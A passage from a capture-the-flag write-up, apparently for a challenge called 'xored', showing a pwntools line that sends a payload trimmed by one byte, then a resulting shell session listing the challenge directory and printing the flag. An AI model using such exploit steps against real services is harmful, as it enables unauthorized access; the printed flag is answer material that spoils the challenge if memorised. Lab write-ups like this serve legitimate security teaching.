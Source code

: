 It's only padding so by shaving off a byte at the front of the payload (killing the 'K' in 'KuCOL'), everything else should align up like before:

```python
io.sendafter(b'> ', secur[1:])
```


This time we get a shell for real:

```
the results:
$ 
$ whoami
ept
$ ls -la
total 52
drwxr-xr-x 1 root root    83 Oct 22 16:33 .
drwxr-xr-x 1 root root    17 Oct 22 16:33 ..
-rwxr-xr-x 1 root root   220 Feb 25  2020 .bash_logout
-rwxr-xr-x 1 root root  3771 Feb 25  2020 .bashrc
-rwxr-xr-x 1 root root   807 Feb 25  2020 .profile
-rwxrwxr-x 1 root root 17328 Oct 22 16:33 xored
-rwxrwxr-x 1 root root 18744 Oct  1 18:14 ynetd
$ cat /opt/flag
EPT{t0ld_y0u_x0r_1s_s3cur3_!}$  
``` 


